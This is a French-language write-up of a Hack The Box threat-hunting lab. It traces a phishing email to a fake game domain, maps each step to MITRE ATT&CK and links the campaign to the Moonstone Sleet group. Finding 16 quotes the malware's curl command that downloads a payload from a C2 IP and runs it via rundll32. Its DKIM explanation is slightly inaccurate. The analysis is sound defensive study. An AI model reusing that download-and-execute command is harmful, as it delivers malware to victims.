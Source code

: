 # Sherlock / Threat Hunting Exercise

**Title: Teamwork**

**Date: 19/09/2025**

**Objective:**
Le but de l’exercice est d'identifier l'action suspect et d'analyser les emails d'aujourd'hui de Jason Longfield.
    - Mapper les attacques et menaces au MITRE ATT&CK Framework
    - Faire l'exercice: **Threat Intelligence Pivoting**
    - Apprendre la recherche sur Menace.

**Environment / Tools Used:**

* HTB Sherlocks
* MITRE ATT&CK, OSINT

**Investigation Steps (short):**

**Findings:**
1. On a trouvé l'email suspect et il a titre comme: `Opportunity to Invest in NFT Game Project.eml`
    - Le problem est que `DKIM`, `DMARC` sont différents. D'abbord, ils sont marqués comme `passed`
    - Mais, basé sur les informations originales du message, on a trouvé que `DKIM` et `DMARC` est marqué comme `none` et il y a un message que:
    - `le message n'est pas signé` et voilà, c'est bizarre dans cette situation.
    - L'email est venu de cette addresse: `<theodore.todtenhaupt@developingdreams.site`

2. Quand on a verifié le domaine sur le `spamhouse.org`: `developingdreams.site`, on a trouvé que ce domaine est crée le `31/01/2025`

3. Selon le MITRE ATT&CK, basé sur le tactic de `Resource Development`, la technique au-dessus a utilisé `T1583.001`: **Acquire Infrastructure: Domains**

4. On a trouvé que le domaine: `developingdreams.site` est associé avec l'entreprise: **Develop_Dreams** on Twitter (X): `https://x.com/Develop_Dreams`.

5. Cette technique au-dessus est associé avec la technique de `Resource Development` dans MITREATT&CK.
    - D'abord, l'attaquant peut creer les comptes sociaux dans les médias sociaux.
    - Cette technique est marqué comme `Establish Accounts` (T1585) et pour les comptes sociaux, cet ID est (T1585.001).
    - L'attaquant utilise normalement cette technique pour cibler les victimes plus tard pendant sa campaigne.

6. Pour trouver les information, on a dû utiliser le `Wayback Machine` car le site n'est pas disponible en moment de notre enquête.
    - Et on a trouvé que le jeu s'appelé `DeTankWar`

7. Et on a utilisé aussi le `Wayback Machine` pour télécharger `zip file` montré dans l'email: `beta_release_v.1.32.exe`:
    - Cela a le hachage (SHA256): `56554117d96d12bd3504ebef2a8f28e790dd1fe583c33ad58ccbf614313ead8c`

8. Selon le MITRE ATT&CK, la technique au-dessus correspond à la tactique: `Resource Development` et
   plus précisement, la technique: `Stage Capabilities`>> **Upload Malware** (T1608.001).

9. Pour trouver le `threat actor`, on a utilisé le mot clé `game` dans MITRE ATT&CK, et le premier résultat était **Moonstone Sleet**
    - Quand on a analysé ce `Threat Actor`, cela a en les action similaires

10. Le pays d'origin est **North Korea**

11. L'autre campaigne de ce `Threat Actor` était avec le logiciel: **PuTTY** (Version de Trojan)

12. La technique au-dessus correspond à la tactique: `Supply Chain Compromise` avec sub-field: `Compromise Software Supply Chain`: **T1195.002**

13. Selon le MITRE ATT&CK, l'autre campaigne futur peut-être avec **npm** paquets.
    - Ce groupe a developé le malware utilisant **npm** paquets pour la livraison.

14. Quand on a cherché sur l'Internet: `Moonstone Sleet` avec supply chain attacks, on a trouvé la source:
    - `https://securitylabs.datadoghq.com/articles/stressed-pungsan-dprk-aligned-threat-actor-leverages-npm-for-initial-access/`
    - Le paquet malveillant de **NMP** était `harthat-hash v1.3.3`

15. Le malware paquet au-dessus a connecté avec C2(IP:142.111.77.196) et a téléchargé `Sprint.dll`

16. Le malware a fait: `curl -o Temp.b -L "http://142.111.77.196/user/user.asp?id=G6A822B" > nul 2>&1`
    - On comprend que il fait une demande pour récupérer **Temp.b** et plus tard, il fait renommer au `package.db` et a utilisé `rundll32.exe`
    - Donc, on connaît que la tactique **Defense Evasion** >> `System Binary Proxy Execution: Rundll32`(T1218.011) a été utilisé ici.


**Key Learning / Takeaway:**
- **DKIM** >> c'est le methodé pour autoriser le contenu: (Domain Keys Identified Email)
    - Il utilise la clé privée pour signer le message et àpres, le récepteur utilise la clé public pour décrypter le message.

- **ARC** >> c'est (Authenticated Received Chain) >> chaque fois qu'un qu'un l'email transite par un
    serveur, le serveur appose un tampon(stamp) d'authentication comme (SPF, DKIM, DMARC)
    - Ces tampons sont stockés dans **ARC** >> et cela aide le prochain serveur à prendre la décision d'accepter ou non cet-email.
    - ARC >> une chaîne d'enregistrements de confiance.

- **PuTTY:** >> émulateur de terminal gratuit et open-source, console série et application de transfert de fichiers réseau

Voilà, ça est y, c'est fini: `https://labs.hackthebox.com/achievement/sherlock/2118023/875`
